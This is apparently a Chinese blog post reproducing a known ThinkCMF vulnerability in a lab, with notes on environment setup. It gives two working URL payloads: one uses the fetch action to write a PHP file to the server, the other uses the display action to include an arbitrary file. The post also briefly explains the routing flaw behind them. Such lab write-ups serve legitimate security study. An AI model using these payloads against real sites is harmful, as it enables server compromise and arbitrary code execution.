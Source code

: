 本文参考自：  
https://xz.aliyun.com/t/6626

0x00  
由于原文写的已经比较详细，故本文只记录我在复现分析的过程中碰到的问题及学到的知识

0x01  
搭建环境时，稳妥起见选择和原文一致的php版本  
这里注意：php安装包中，ts版本指的是线程安全版本，通常用在ISAPI模式中，而nts版本指的是非线程安全版本，通常用在fastcgi模式中  
ISAPI模式：php作为一个模块，比如作为apache的一个模块  
fastcgi模式：cgi模式的升级版，当作为一个独立的进程存在时，php-fpm是fastcgi的一种实现  
windows下：  
apache+php->
iis+php->
linux下：  
apache+php->
nginx+php->

0x02  
搭建环境时，第三步报错，提示“thinkcmf 安装报错 Driver.class.php 　LINE: 350”，drop database thinkcmf后，重新安装成功，原因未知

0x03  
由于我个人喜欢在不同的虚拟机下进行攻击测试（这样更贴近实战），当在虚拟机kali下访问时无反映，提示“just a demo for multi lang user! LANG IS en-us;”，后经测试发现是因为thinkcmf不能在英文系统下访问，改用虚拟机win10攻击机（中文版）访问，成功访问

0x04  
使用firefox下插件HackBar Quantum，执行payload1  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
成功在C:\phpstudy_pro\WWW\ThinkCMFX\下创建test.php，访问http://172.16.35.132/ThinkCMFX/test.php 能够成功访问

0x05  
使用firefox下插件HackBar Quantum，执行payload2  
```
?a=display&templateFile=README.md
```
成功包含了README.md

0x06  
漏洞形成的根本原因，ThinkPHP框架规则中，可以通过g\m\a参数指定分组\模块\方法（这里的分组即应用，也就是可以通过g\m\a参数指定任意应用的模块、方法）  
应用是thinkcmf中的概念，一个blog即一个应用，一个商场即一个应用，具体参见thinkcmf官方文档：https://www.thinkcmf.com/docs/cmfx/app.html
